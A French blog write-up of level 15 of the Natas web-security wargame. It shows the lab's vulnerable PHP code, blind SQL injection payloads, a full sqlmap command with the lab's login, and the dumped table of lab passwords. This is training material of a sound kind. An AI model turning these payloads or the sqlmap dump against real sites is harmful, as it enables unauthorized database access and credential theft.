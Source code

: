 ```yaml
---
layout: post
title: Wargame Natas - Writeup Level 15
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
categories: articles
tags: [hacking]
photo: overthewire_logo.png
comments: true
---
```


Il y a quelque temps je me suis penché sur le wargame [Natas](http://www.overthewire.org/wargames/natas) présent sur le site  [overthewire.org](http://www.overthewire.org), qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le [wiki](http://wiki.zenk-security.com/doku.php?id=natas_wargame) de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données :

<figure>
    <img src="images/blog_posts/natas15_1.png"></a>
	<figcaption>L'utilisateur n'existe pas.</figcaption>
</figure>

Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent :

<figure>
    <img src="images/blog_posts/natas15_2.png"></a>
    <figcaption>L'utilisateur existe.</figcaption>
</figure>

On suppose qu'il va falloir récupérer les informations de l'utilisateur `natas16` puisqu'il existe.

Jetons un oeil au code source :

{% highlight php linenos %}
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
{% endhighlight %}

On apprend tout d'abord que les informations sont stockées dans une table nommée `users` et qui comprend deux colonnes, `username` et `password`. Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur `natas16`.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre `username` puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la [documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Et si vous voulez voir l'exécution du script en direct c'est par ici :

<script type="text/javascript" src="http://ascii.io/a/1623.js" id="asciicast-1623"> </script>